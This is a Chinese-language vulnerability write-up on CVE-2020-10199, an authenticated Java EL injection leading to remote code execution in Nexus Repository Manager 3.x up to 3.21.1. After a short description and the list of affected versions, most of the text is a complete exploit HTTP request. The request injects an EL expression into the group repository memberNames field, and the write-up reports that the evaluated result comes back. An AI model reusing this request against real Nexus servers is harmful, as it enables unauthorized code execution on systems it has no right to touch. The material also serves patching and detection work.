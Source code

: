 （CVE-2020-10199）Nexus Repository Manager 远程代码执行漏洞
===========================================================

一、漏洞简介
------------

该漏洞允许拥有Nexus Repository Manager 上任何类型帐户的攻击者通过向Nexus
Repository Manager 发出恶意 JavaEL 表达式来执行任意代码。

二、漏洞影响
------------

Nexus Repository Manager 3.x OSS / Pro \<= 3.21.1

三、复现过程
------------

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

    POST /service/rest/beta/repositories/go/group HTTP/1.1
    Host: www.0-sec.org:8081
    Content-Length: 203
    X-Requested-With: XMLHttpRequest
    X-Nexus-UI: true
    User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.149 Safari/537.36
    NX-ANTI-CSRF-TOKEN: 0.7886248393834028
    Content-Type: application/json
    Accept: */*
    Origin: http://127.0.0.1:8081
    Sec-Fetch-Site: same-origin
    Sec-Fetch-Mode: cors
    Referer: http://127.0.0.1:8081/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: zh-CN,zh;q=0.9
    Cookie: NX-ANTI-CSRF-TOKEN=0.7886248393834028; NXSESSIONID=cedf848f-d881-4b58-ac24-9e9c3ece40bc
    Connection: close
     
    {
      "name": "internal",
      "online": true,
      "storage": {
        "blobStoreName": "default",
        "strictContentTypeValidation": true
      },
      "group": {
        "memberNames": ["$\\A{233*233*233}"]
      }
    }

### （1）尝试执行233*233*233，成功返回结果

![1.png](resource/(CVE-2020-10199)NexusRepositoryManager远程代码执行漏洞/media/rId25.png)
